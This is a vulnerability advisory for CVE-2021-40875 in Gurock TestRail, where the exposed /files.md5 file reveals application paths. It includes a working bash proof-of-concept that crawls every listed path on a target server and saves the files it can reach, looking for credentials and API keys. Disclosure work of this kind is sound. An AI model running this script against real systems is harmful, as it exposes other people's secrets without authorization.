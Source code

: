 ### Title
CVE-2021-40875: Improper Access Control in Gurock TestRail versions 7.2.0.3014 and below results in sensitive file exposure

### CVE ID
CVE-2021-40875

### CVSS Score
7.5

CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N

### Internal ID
SICK-2021-129

### Vendor
Gurock Software GmbH

### Product
TestRail Test Case Management Software

### Product Versions
7.2.0.3014 and below

### Vulnerability Details
Improper Access Control in Gurock TestRail versions < 7.2.0.3014 resulted in sensitive information exposure. A threat actor can access the /files.md5 file on the client side of a Gurock TestRail application, disclosing a full list of application files and the corresponding file paths. The corresponding file paths can be tested, and in some cases, result in the disclosure of hardcoded credentials, API keys, or other sensitive data.

### Vendor Response
Pending

### Proof of Concept

https://github.com/SakuraSamuraii/derailed


```bash
#!/bin/bash
# Author:       sickcodes
# Contact:      https://twitter.com/sickcodes
# Copyright:    sickcodes (C) 2021
# License:      GPLv3+

# Exploit Title: Gurock Testrail 7.2.0.3014 - 'files.md5' Improper Access Control
# Date: 22/09/2022
# Exploit Author: Sick Codes & JohnJHacking (Sakura Samuraii)
# Vendor Homepage: https://www.gurock.com/testrail/
# Version: 7.2.0.3014 and below
# Tested on: macOS, Linux, Windows
# CVE : CVE-2021-40875
# Reference: https://johnjhacking.com/blog/cve-2021-40875/


# stop null byte error while curling
shopt -s nullglob

! [ "${1}" ] && { echo "No target was specified. ./script.sh 'https://target/'" && exit 1 ; }

TARGET="${1}"

FILE_LIST="${PWD}/files.md5.txt"

stat "${FILE_LIST}" || wget -L https://raw.githubusercontent.com/SakuraSamuraii/derailed/main/files.md5.txt

mkdir -p ./output
cd ./output

touch ./accessible.log

# fetch an updated files.md5, if it comes in a future version
# curl "${TARGET}/files.md5" > ./files.md5

while read -r HASH SUFFIX; do
    echo "${SUFFIX}"
    TESTING_URL="${TARGET}/${SUFFIX}"
    echo "========= ${TESTING_URL} ========="

    # Ignore list, some of these files MAY be world readable,
    # if the organisation has modified permissions related 
    # to the below files otherwise, they are ignored.
    case "${SUFFIX}" in
        *'.php' ) continue
            ;;
        *'.html' ) continue
            ;;
        *'LICENSE' ) continue
            ;;
        *'README.md' ) continue
            ;;
        *'.js' ) continue
            ;;
        *'.svg' ) continue
            ;;
        *'.gif' ) continue
            ;;
        *'.png' ) continue
            ;;
        *'.css' ) continue
            ;;
        *'.exe' ) continue
            ;;
        *'.pdf' ) continue
            ;;
        # *'.add_your_own' ) continue
        #     ;;
    esac

    # peek at page response
    # doesn't work because gurock returns 200 and prints the error in plaintext
    # curl -s -I -X POST "${TESTING_URL}"

    # feth the page, following redirects, to a variable
    OUTPUT_DATA="$(curl -L -vvvv "${TESTING_URL}")"

    # find matching disqualifying pharses in the page contents
    # and pass any pages that are "denied access" or "direct script access"
    case "${OUTPUT_DATA}" in
        *'No direct script'* ) continue
            ;;
        *'Directory Listing Denied'* ) continue
            ;;
    esac

    # save all interesting pages, without forward slashes
    # https://www.target/
    # will be saved as:
    # https:::www.target:
    tee "${SUFFIX//\//\:}" <<< "${OUTPUT_DATA}"

    # print to stdout, and also append to ./accessible.log the successful saves
    tee -a ./accessible.log <<< "${TESTING_URL}"

done < "${FILE_LIST}"
```

#### Disclosure Timeline
* **2021-09-01** - Researchers discovers vulnerability, CVE requested.
* **2021-09-22** - Vulnerability published.

### Links

[https://www.gurock.com/testrail/](https://www.gurock.com/testrail/)

[https://johnjhacking.com/blog/cve-2021-40875/](https://johnjhacking.com/blog/cve-2021-40875/)

[https://github.com/SakuraSamuraii/derailed](https://github.com/SakuraSamuraii/derailed)

[https://github.com/sickcodes/security/blob/master/advisories/SICK-2021-129.md](https://github.com/sickcodes/security/blob/master/advisories/SICK-2021-129.md)

[https://sick.codes/sick-2021-129](https://sick.codes/sick-2021-129)

[https://packetstormsecurity.com/files/164270/Gurock-Testrail-7.2.0.3014-Improper-Access-Control.html](https://packetstormsecurity.com/files/164270/Gurock-Testrail-7.2.0.3014-Improper-Access-Control.html)

[https://www.exploit-db.com/exploits/50320](https://www.exploit-db.com/exploits/50320)

### Researchers
- *John Jackson* [https://twitter.com/johnjhacking](https://twitter.com/johnjhacking) || [https://github.com/johnjhacking](https://github.com/johnjhacking)

- *Sick Codes* [https://github.com/sickcodes](https://github.com/sickcodes) || [https://twitter.com/sickcodes](https://twitter.com/sickcodes)

#### CVE Links

[https://sick.codes/sick-2021-129](https://sick.codes/sick-2021-129)

[https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-40875](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-40875)

[https://nvd.nist.gov/view/vuln/detail?vulnId=CVE-2021-40875](https://nvd.nist.gov/view/vuln/detail?vulnId=CVE-2021-40875)


